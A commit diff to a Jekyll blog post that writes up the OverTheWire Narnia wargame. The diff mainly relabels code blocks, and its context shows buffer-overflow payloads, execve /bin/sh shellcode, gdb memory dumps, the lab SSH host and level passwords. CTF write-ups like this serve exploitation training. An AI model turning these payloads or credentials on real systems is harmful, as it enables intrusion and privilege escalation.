

Before and after one commit to Blackhawk989/Blackhawk989.github.io, a Jekyll site: the page built from _posts/overthewire-Narnia-2022/2022-03-03-narnia.md, in a window 1280 px wide and 1400 px high, scrolled down 24709 px. Shown: the whole window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2022-03-03-narnia.md

````diff
--- a/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
+++ b/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
@@ -28,7 +28,7 @@ This [geeksforgeeks](https://www.geeksforgeeks.org/memory-layout-of-c-program/)
 
 For this CTF, this is something that you can tackle first, since overall it was on the easier side of the spectrum, however I would recommend something like [overthewire - Bandit](https://overthewire.org/wargames/bandit/) first as an introduction if you are new. For me, it took 10+ hours in order to find the solutions to all levels, results may vary. Depending on how quickly the format string vulnerability explanations make sense to you.
 
-### Credit
+## Credit
 [Corb3nik's pages template](https://github.com/Corb3nik/Corb3nik.github.io), is the page in which I forked off of for this website template, so big credit to them. Additionally, consulted [axcheron.github.io](https://axcheron.github.io/writeups/otw/narnia/) for CTF writeup inspiration, and improving the answers to my own solutions.
 
 
@@ -38,7 +38,7 @@ For this CTF, this is something that you can tackle first, since overall it was
 ## General Information
 
 SSH Information :
-```
+```console
     Host: narnia.labs.overthewire.org
     Port: 2226
 ```
@@ -46,7 +46,7 @@ SSH Information :
 Narnia's levels are called **narnia0, narnia1, ...etc** and the passwords are located in the `/etc/narnia_pass/narniaX` folder.
 
 The first level can be accessed using :
-```
+```console
     Username: narnia0
     Password: narnia0
 ```
@@ -54,7 +54,7 @@ The first level can be accessed using :
 ---
 
 ## Level 0
-```
+```console
     SSH: narnia0@narnia.labs.overthewire.org -p 2226
     Password: narnia0
 ```
@@ -105,7 +105,7 @@ This source code initializes two values, one as val and another as buffer specif
 
 Strange... the buffer is of length 20 characters and allowed an input of 24 characters. We can utilize this property to do a buffer overflow attack. Something that we know are that local variables are stored in logically contiguous memory. Something we can actually view using `gdb`. We can see the buffer that is filled with B as well as the 4 bytes following that are the value of val.
 
-```
+```console
 (gdb) run
 Starting program: /narnia/narnia0 BBBBBBBBBBBBBBBBBBBB
 Correct val's value from 0x41414141 -> 0xdeadbeef!
@@ -157,7 +157,7 @@ Getting the password `efeidiedae` allows us to move on to the next level.
 ---
 
 ## Level 1
-```
+```console
     SSH: narnia1@narnia.labs.overthewire.org -p 2226
     Password: efeidiedae
 ```
@@ -192,7 +192,7 @@ This source code shows that it retrieving the environment variable EGG and then
 
 Running `uname -a` :
 
-```
+```console
 Linux narnia 4.18.12 #1 SMP Tue Oct 16 11:25:23 UTC 2018 x86_64 GNU/Linux
 ```
 
@@ -230,7 +230,7 @@ Perfect! Now we have the password for `narnia2` : `nairiepecu`
 ---
 
 ## Level 2
-```
+```console
   SSH: narnia2@narnia.labs.overthewire.org -p 2226
   Password: nairiepecu
 ```
@@ -264,7 +264,8 @@ int main(int argc, char * argv[]){
 Looks to be another buffer overflow attack, as `strcpy` does not check the size of the input before copying to the buffer. Something interesting is that we have no direct call to a shell. So we can combine our knowledge from the previous two levels and try to insert our shell code into the buffer.
 
 So how do we actually get our shell code to run, after inserting it into the buffer? One thing that we can do is actually shown here in gdb :
-```$
+
+```console
 (gdb) run $(python -c 'print "A" * 152')
 Starting program: /narnia/narnia2 $(python -c 'print "A" * 152')
 
@@ -277,7 +278,8 @@ Notice that? We segmentation fault at memory location `0x41414141`, and since `0
 Another issue we run into is that we need to return to precisely the beginning of the shell code in order to run it. A way to make this easier is by using `\x90` as our filler character instead of A. `\x90` is the command that represents `nop` in assembly, or no operation, so in theory, if we return to anywhere within our wall of `nop` then we can run our shell code. This is known as a nop slide, and is a relatively straightforward technique.
 
 First is to find the location of the return address which we can do with some iteration, by starting from the end of the buffer, and slowly increasing the size of the buffer, we can find when the program segfaults at `0x44444444` :
-```
+
+```console
 (gdb) run $(python -c 'print "A" * 132 + "DDDD"')
 Starting program: /narnia/narnia2 $(python -c 'print "A" * 132 + "DDDD"')
 
@@ -289,7 +291,7 @@ So this means that we have to fill our buffer with 132 bytes + return address. O
 
 Using gdb we can view the memory at `$esp`. First, we disassemble main, then looking at the assembly we can find where the call to strcpy is located. Putting a breakpoint after that call makes it so that we have our buffer put into memory at the location we want, choosing a memory location somewhere in the middle of where we have the A is OK, I chose `0xffffd868`, keeping in mind that we are not actually seeing buffer first (I'm not entirely sure why it won't execute before, but I believe that the code in argv is non-executable, so we have to go to buffer), so keep adding on to the `$esp` until we see another set of `0x41414141`.
 
-```
+```console
 (gdb) disas main
 Dump of assembler code for function main:
    0x0804844b <+0>:     push   %ebp
@@ -340,7 +342,7 @@ vaequeezee
 Got it! `vaequeezee` is the password for `narnia3`
 ---
 ## Level 3
-```
+```console
     SSH: narnia3@narnia.labs.overthewire.org -p 2226
     Password: vaequeezee
 ```
@@ -439,7 +441,7 @@ And that's a wrap! We got our password for `narnia4` as `thaenohtai`
 ---
 
 ## Level 4
-```
+```console
     SSH: narnia4@narnia.labs.overthewire.org -p 2226
     Password: thaenohtai
 ```
@@ -481,7 +483,7 @@ Segmentation fault
 ```
 Hmm, seems like we are probably not overwriting the return address correctly or returning to the wrong address in memory, so we can launch in gdb to see what the issue is.
 
-```
+```console
 (gdb) run $(python -c 'print "A"*260 + "BBBB"')
 Starting program: /narnia/narnia4 $(python -c 'print "A"*260 + "BBBB"')
 
@@ -510,7 +512,7 @@ That was easy. Moving onto the next level: faimahchiy.
 ---
 
 ## Level 5
-```
+```console
     SSH: narnia5@narnia.labs.overthewire.org -p 2226
     Password: faimahchiy
 ```
@@ -648,7 +650,7 @@ So there seems to be a lot of setup going on, however the important line is the
 
 So launching gdb, and setting a breakpoint at the call to `$eax`, which is the `fp(b1)` line.
 
-```
+```console
    [...]
    0x080486e3 <+315>:   push   %eax
    0x080486e4 <+316>:   mov    -0xc(%ebp),%eax
@@ -699,7 +701,7 @@ Our password is `ahkiaziphu` and we can move on!
 ---
 
 ## Level 7
-```
+```console
     SSH: narnia7@narnia.labs.overthewire.org -p 2226
     Password: ahkiaziphu
 ```
@@ -803,7 +805,7 @@ After a little bit of bruteforcing, we were able to gain access to the shell, by
 ---
 
 ## Level 8
-```
+```console
     SSH: narnia8@narnia.labs.overthewire.org -p 2226
     Password: mohthuphog
 ```
@@ -846,7 +848,7 @@ int main(int argc, char **argv){
 ```
 It seems that bok can be overflowed, lets try to overflow it and view the result in gdb.
 
-```
+```console
    0x0804847f <+100>:   push   %eax
    0x08048480 <+101>:   push   $0x8048550
    0x08048485 <+106>:   call   0x80482e0 <printf@plt>
@@ -885,7 +887,7 @@ Interesting, if we try to overflow the buffer, we only go one byte over (remembe
 
 So what happens if we try to append `8a` to the end of our payload. With the eventual goal of making it to our return address and overwriting that with a call that we can specify.
 
-```
+```console
 (gdb) x/16x $esp
 0xffffd67c:   0x08048550    0xffffd684    0x41414141    0x41414141
 0xffffd68c:   0x41414141    0x41414141    0x41414141    0xffff4c8a
@@ -895,7 +897,7 @@ So what happens if we try to append `8a` to the end of our payload. With the eve
 
 Interesting, it seems that every time we increment to our payload by one byte, the address we need to match decrements. So lets keep this in mind and construct a payload, that can overwrite blah with itself.
 
-```
+```console
 (gdb) x/16x $esp
 0xffffd67c:   0x08048550    0xffffd684    0x41414141    0x41414141
 0xffffd68c:   0x41414141    0x41414141    0x41414141    0xffff4886
@@ -905,7 +907,7 @@ Interesting, it seems that every time we increment to our payload by one byte, t
 
 Success! We have now made it past the address for blah, we can now overwrite the return address. Since we don't have access to a system call with shell, we need to insert some shell code.
 
-```
+```console
 (gdb) run $(python -c 'print "A"*20 + "\x0c\xd8\xff\xff" + "AAAA" + "\x2c\xd6\xff\xff" + "\x90"*16 + "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89
 \xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"')
 The program being debugged has been started already.
@@ -945,7 +947,7 @@ int main()
 }
 ```
 
-```
+```console
 narnia8@narnia:/tmp/tem_shell$ gcc -m32 addr.c -o findAddr
 narnia8@narnia:/tmp/tem_shell$ ./findAddr
 0xffffdea4
````
